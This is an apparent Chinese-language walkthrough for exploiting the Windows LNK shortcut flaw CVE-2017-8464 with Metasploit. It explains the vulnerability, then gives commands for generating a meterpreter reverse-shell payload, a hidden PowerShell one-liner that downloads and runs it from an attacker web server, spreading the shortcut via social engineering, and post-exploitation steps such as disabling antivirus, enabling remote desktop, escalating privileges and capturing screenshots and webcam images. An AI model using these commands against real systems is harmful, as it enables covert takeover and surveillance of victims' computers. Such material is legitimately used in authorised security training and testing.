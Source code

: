 # 一、 什么是 CVE-2017-8464：

说明：

2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危

传播的载体一般是LNK ，LNK是windows系统内应用程序快捷方式文件的文件类型后缀名。

危害：

被攻击机插入存在攻击lnk的U盘后会反弹shell，哪怕是被隔离的内网，也可以在不上网的情况下被攻击。

# 二、环境准备：

1 可复现的操作系统版本：

* Microsoft Windows 10 Version 1607 for 32-bit Systems
* Microsoft Windows 10 Version 1607 for x64-based Systems
* Microsoft Windows 10 for 32-bit Systems
* Microsoft Windows 10 for x64-based Systems
* Microsoft Windows 10 version 1511 for 32-bit Systems
* Microsoft Windows 10 version 1511 for x64-based Systems
* Microsoft Windows 10 version 1703 for 32-bit Systems
* Microsoft Windows 10 version 1703 for x64-based Systems
* Microsoft Windows 7 for 32-bit Systems SP1
* Microsoft Windows 7 for x64-based Systems SP1
* Microsoft Windows 8.1 for 32-bit Systems
* Microsoft Windows 8.1 for x64-based Systems
* Microsoft Windows RT 8.1

2 可复现的服务器系统版本：

* Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
* Microsoft Windows Server 2008 R2 for x64-based Systems SP1
* Microsoft Windows Server 2008 for 32-bit Systems SP2
* Microsoft Windows Server 2008 for Itanium-based Systems SP2
* Microsoft Windows Server 2008 for x64-based Systems SP2
* Microsoft Windows Server 2012
* Microsoft Windows Server 2012 R2
* Microsoft Windows Server 2016

3 kali操作系统

# **三、利用原理** ：

创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机中病毒，并且被远控。

# 四、实战利用

启动MSF

终端内输入：msfconsole

开始利用：

#### 1 使用MSF创建一个后门

msf内输入：

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 -f psh-reflection>/var/www/html/link.ps1

#### 2 在kali下开启apache2

终端内输入：service apache2 start

#### 3 通过社会学进行快捷方式传播

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.204.135/link.ps1');test.ps1"

![[一、 什么是 CVE-2017-8464：.assets/1641972171811.png]]

![[一、 什么是 CVE-2017-8464：.assets/1641972183309.png]]

#### 4 回到MSF终端配置监听

msf内输入：  use exploit/multi/handler

#### 5 配置payload

set payload windows/x64/meterpreter/reverse_tcp

![[一、 什么是 CVE-2017-8464：.assets/1641972198597.png]]

msf中输入 ： show options   配置payload

![[一、 什么是 CVE-2017-8464：.assets/1641972211876.png]]

设置 LHOST  和  LPORT

maf中输入：

5.1  set lhost `<当前机器ip>` 设置 LHOST

5.2  set lport  `<未被占用的端口>`  设置 LPORT

![[一、 什么是 CVE-2017-8464：.assets/1641972223277.png]]

5.3  最后在 输入 show options 查看配置是否生效

![[一、 什么是 CVE-2017-8464：.assets/1641972233527.png]]

#### 6 执行监听

msf中输入 ： run 或者  exploit

![[一、 什么是 CVE-2017-8464：.assets/1641972244295.png]]

进入靶机执行我们在靶机上创建的快捷方式

![[一、 什么是 CVE-2017-8464：.assets/1641972183309.png]]

稍等片刻获取到meterpreter

![[一、 什么是 CVE-2017-8464：.assets/1641972268406.png]]

# 五、后渗透

1、通过快捷方式执行程序

meterpreter中输入  shell

![[一、 什么是 CVE-2017-8464：.assets/1641972283719.png]]

发现shell显示有乱码

shell内输入  chcp 65001

![[一、 什么是 CVE-2017-8464：.assets/1641972295944.png]]

然后进入desktop目录（这个是win的桌面）

根据实际情况拼路径

shell 里输入：cd users/mb/desktop

![[一、 什么是 CVE-2017-8464：.assets/1641972307789.png]]

2 更多操作

查看进程：ps
查看当前进程号：getpid
查看系统信息：sysinfo
查看目标机是否为虚拟机：run post/windows/gather/checkvm
查看完整网络设置：route
查看当前权限：getuid
自动提权：getsystem
关闭杀毒软件：run post/windows/manage/killav
启动远程桌面协议：run post/windows/manage/enable_rdp
列举当前登录的用户：run post/windows/gather/enum_logged_on_users
查看当前应用程序：run post/windows/gather/enum_applications
抓取目标机的屏幕截图：load espia ； screengrab
抓取摄像头的照片：webcam_snap
查看当前处于目标机的那个目录：pwd
查看当前目录：getlwd